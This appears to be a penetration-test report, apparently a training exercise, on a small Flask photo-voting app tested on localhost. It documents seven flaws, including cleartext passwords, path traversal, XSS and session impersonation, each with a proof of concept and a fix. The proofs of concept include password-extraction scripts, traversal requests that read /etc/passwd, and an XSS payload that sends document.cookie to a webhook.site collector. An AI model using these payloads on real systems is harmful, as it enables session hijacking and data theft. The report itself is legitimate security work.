







# Security Report - Los Miss

## Table of Contents

### **1.0 Executive Summary**

### **2.0 Findings**
  - 2.1 Cleartext Storage of Sensitive Information
  - 2.2 Arbitrary File Upload with Directory Traversal
  - 2.3 Vote tempering
  - 2.4 Cross Site Scripting (XSS)
  - 2.5 Local File Inclusion
  - 2.6 User Impersonation
  - 2.7 Sensitive Cookie Without 'HttpOnly' Flag


## 1.0 Executive Summary

I have performed a security assessment of the **Los Miss** web application. This applications allows users to create an account, submit a photo, vote on the photos of other users and post comments.

The goal of this assessment was to identify security issues that could pose an information security risk. The assessment was conducted using both static analysis of the source code, as well as dynamic analysis in a local testing environment. The URL of the web app in the testing environment was `http://127.0.0.1:5000/`.

Overall, the assessment was able to identify numerous weaknesses of High and Medium severity in the web application.



<br><br><br><br><br>

## 2.0 Findings

### **2.1 Cleartext Storage of Sensitive Information**

- **KSI attack name:** Password extraction from the DB
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-313](https://cwe.mitre.org/data/definitions/313.html)

### 2.1.1 Description

The application stores all data in plaintext, including user passwords. The data which is compressed in XZ format and saved in file `__main__` can therefore easily be extracted, provided that the attacker has access to the database file.

### 2.1.2 Proof of Concept

- accounts from the DB can be extracted with a few simple commands on Linux:

```bash
cp __main__ db.xz  # create copy of compressed db
unxz db.xz  # decompress it
readarray -t lines < db  # read lines
for line in "${lines[@]}"; do  # go through lines
  if [[ $line == passwords* ]]; then  # check if line has passwords
    readarray -d "|" -t users_parsed<<<"$line"  # split the lines
    for creds in "${users_parsed[@]}"; do
        echo $creds  # print credentials
    done
  fi
done
```

- same can be achieved with Python:
```python
from lzma import open
with open("__main__", "rb") as f:
  lines = f.read().decode('utf-8').splitlines()
  for line in lines:
    if line.startswith("passwords"):
      for x in line.split("|"):
        print(x)
```

- output of the code (same for both Python and bash):



### 2.1.3 Impact

Attacker can use the acquired passwords to log into the Los Miss website as a different user. Since many users use the same or very similar password on more than one web service, the attacker can use the obtained passwords to log into other services where the user uses the same password.

### 2.1.4 Recommendation

Application should never store user passwords, only keep their secure salted hash for comparison during login. It is also important to keep the cleartext password in memory only for the minimal time required to compute the secure hash of the password, and securely wipe the password from memory afterwards.


### **2.2 Arbitrary File Upload with Directory Traversal**

- **KSI attack name:** Uploading file to a place where it should not be
- **Severity:** <span style="color:#f38c00">**Medium**</span>
- **Reference:** [CWE-23](https://cwe.mitre.org/data/definitions/23.html)
- **vulnerable URL:** http://127.0.0.1:5000/new_submission


### 2.2.1 Description

The web application uses external input that can be controlled by attacker to construct a pathname. If the website does not neutralize sequences such as `..`, the resulting pathname can end up outside the original directory.

In this case, the attacker can control the pathname with their username, as the username is used in pathname creation.


### 2.2.2 Vulnerable code

line 133 in `main.py`:
```python
request.files['file'].save(DATA_DIR + '/' + get_username(database, request) + '.png')
```

### 2.2.3 Proof of Concept
- overwrite image of another user
  - resulting path is the same, but username in system is different
  - `data/`**`./LosiceKarsice.png`** -> `data/`**`LosiceKarsice.png`**



- writing outside `data` directory with the use of `../`
  - `data/`**`../db/kamzik.png`** -> **`db/kamzik.png`**


### 2.2.4 Impact

Attacker can create new or overwrite existing PNG files on the file system. Since the attacker is limited to files that end with `.png` the likelyhood of Remote Code Execution is quite low.

### 2.2.5 Recommendation

Usernames should only be allowed to use alphanumeric characters. Any pathname that can somehow be influenced by external input should be validated, for example by checking if the canonicialized pathname starts with the allowed base directory.


### **2.3 Vote tempering**

- **KSI attack name:** Vote tempering
- **Severity:** <span style="color:#f38c00">**Medium**</span>
- **vulnerable URL:** http://127.0.0.1:5000/submission/\<username\>


### 2.3.1 Description

Malicious user can repeatedly vote for other users (more than once per user). Current signature validation only ensures, that users don't vote for themselves.


### 2.3.2 Vulnerable code

In the source code, we can see that the validation checks whether the `user` has already voted for the submission of the `user`. Note that variable `user` does not have the username of the user voting, but rather the username of the author of the submission. It seems that this was done by mistake and was instead meant to check whether user sending the HTTP request has already voted for the submission of `user`.
line 72 in `main.py`:
```python
if get_user_signature(
        database, user
) in get_user_submission(database, user)['votes']:
    return "you have already voted for this", 403
```

### 2.3.3 Proof of Concept
- example code in python that adds 200 votes to LosKokos
- example uses ID of NormanTheLos as we have to be logged in to vote
```python
import requests, time

URL = "http://127.0.0.1:5000/submission/LosKokos"
POST_DATA = {"type": "vote"}
COOKIES = {"user_id": "1374012591"}
for _ in range(200):
  r = requests.post(URL, POST_DATA, cookies=COOKIES)
  time.sleep(0.5)
```
### 2.3.4 Impact

By voting multiple times, attacker can disrupt the order of the competitors.

### 2.3.5 Recommendation
- change the vulnerable code to this:
```python
if get_user_signature(
        database, get_username(database, request)
) in get_user_submission(database, user)['votes']:
    return "you have already voted for this", 403
```
- if you apply this fix, don't forget to add another check to make sure users don't vote for themselves

<br><br><br><br>

### **2.4 Stored (persistent) XSS**

- **KSI attack name:** Executing JS in the browser of a victim (XSS)
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html)

### 2.4.1 Description

The web application does not escape special characters from user controllable input before it is displayed on a website. This can result in rendering the input as HTML instead of plain text, and can allow attackers to run malicious code in the web browser of a victim.

Attacker can set their username to HTML code. When the web application renders any comment posted by an attacker with such name, the name is understood as HTML code by the victims web browser.

### 2.4.2 Vulnerable code

line 90 in `templates/submission.html`:
```html
<div class="info">
    -- {{ comment.user|safe }}, <script>document.write(new Date({{ comment.date }} * 1000).toLocaleString())</script>
</div>
```
The `|safe` in `{{ example_string|safe }}` tells jinja that `example_string` is safe and should not be escaped for special characters.

### 2.4.3 Proof of Concept

- simply setting username to `<script>alert(1)</script>` will execute JS if the victim loads a page with a comment from the attacker


### 2.4.4 Impact

Attackers can execute custom JavaScript code in the web browser of users. This could allow them to steal user data such as cookies, or perform actions in web app without the user noticing.

### 2.4.5 Recommendation

- remove `|safe` from `{{ example_string|safe }}`
- consider implementing a character whitelist on user input


### **2.5 Local File Inclusion**
- **KSI attack name:** Database leak
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-23](https://cwe.mitre.org/data/definitions/23.html)
- **vulnerable URL:** http://127.0.0.1:5000/submission_img/?user=LosiceKarsice&format=.png
- **vulnerable parameter:** `user`, `format`

### 2.5.1 Description

With a malicious request, the attacker can read contents of an arbitrary file present on the file system. 

The web application does not verify, that the pathname points to a user submission image located in the `data` folder.

### 2.5.2 Vulnerable code

line 60 in `main.py`:
```python
return send_file(DATA_DIR + '/' + user + img_format, mimetype='image/png')
```

### 2.5.3 Proof of Concept

- to download the database we can use `wget` in Linux:
```bash
wget "http://127.0.0.1:5000/submission_img?user=../db/__main__&format=" -O db.xz
```
- to do the same with Python:
```python
import requests
URL = "http://127.0.0.1:5000/submission_img?user=../db/__main__&format="
r = requests.get(URL)
with open("db.xz", "wb") as f:
    f.write(r.content)
    f.close()
```
- alternatively, we can use this vulnerability to read system files such as `/etc/passwd` on UNIX systems
```bash
wget "http://127.0.0.1:5000/submission_img?user=../../../../../../../../../../../../etc/passwd&format=" -O passwd.txt
```

### 2.5.4 Impact

With the use of path traversal, attacker can request content of any file also outside the `data` directory. This includes the file `db/__main__`, which contains database, as well as any other system files that process has rights to read.

### 2.5.5 Recommendation

Do not let users request files directly, but only send files that are a submission of a user. Furthermore, the pathname should be validated the same way that was previously mentioned in part **2.2.5**.

### **2.6 Improper input validation**

- **KSI attack name:** Getting login as another user without password
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-943](https://cwe.mitre.org/data/definitions/943.html)

### 2.6.1 Description

Attacker can modify how data is store in the database, by using special characters that can temper with how the database stores and parses the data.

### 2.6.2 Proof of Concept

- consider this our DB:
```json
logins|1058279165:::LosiceKarsice|3276514909:::LosKokos
```
- if we now create a new user `LosiceKarsice|`, a new entry in table logins will be created that maps our session id to username
```json
logins|1058279165:::LosiceKarsice|3276514909:::LosKokos|1234567890:::LosiceKarsice|
```
- when the web app tries to figure out username of the user with session id `1234567890`, it will return only `LosiceKarsice` without `|` as that is used as delimiter for entries in the table
- attacker gets logged in as user `LosiceKarsice`

<br>

### 2.6.3 Impact

Insufficient input validation in login form allows attackers to log in as a different user without knowing the password of the victim.

### 2.6.4 Recommendation

Database module should have a robust mechanism of validating, parsing and escaping data securely, so that maliciously crafted data can't temper with how the data is interpreted. It might be a good idea to use a well known database solution instead of making a custom one, as the risk of such attacks would be significantly reduced.

### **2.7 Sensitive Cookie Without 'HttpOnly' Flag**

- **KSI attack name:** Getting login as another user without password (alternative solution)
- **Severity:** <span style="color:#f38c00">**Medium**</span>
- **Reference:** [CWE-1004](https://cwe.mitre.org/data/definitions/1004.html)

### 2.7.1 Description

Cookies containing sensitive data (such as login session) should use `HttpOnly` flag, so that attacker can't access them from JavaScript in case they manage to force the web browser of a victim to run malicious code (for example with XSS).

### 2.7.2 Proof of Concept

With the XSS vulnerability mentioned in part **2.4**, an attacker can execute simple JavaScript code that extracts the cookies of a victim with fetch request to attacker controlled web server.

For demonstration I used [webhook.site](https://webhook.site) which offers a free and easy to use HTTP request logger.
The following was my XSS payload used as the username of the attacker:
```html
<script>fetch("https://webhook.site/4ca52294-10b1-4540-b9d1-77e0bb4e1a0f", {method:"POST", body:document.cookie})</script>
```
When the victim views the submission, the malicious JS is executed, and sends cookies to `webhook.site` collector.

The POST request is logged and the cookies can be read by the attacker. With the `user_id` the attacker can now log in as the victim.


### 2.7.3 Impact

Users that logged in are identified with the cookie `user_id`, so if an attacker can steal this cookie, they can impersonate the victim.

### 2.7.4 Recommendation

Enable flags `HttpOnly` and `Secure` for sensitive cookies.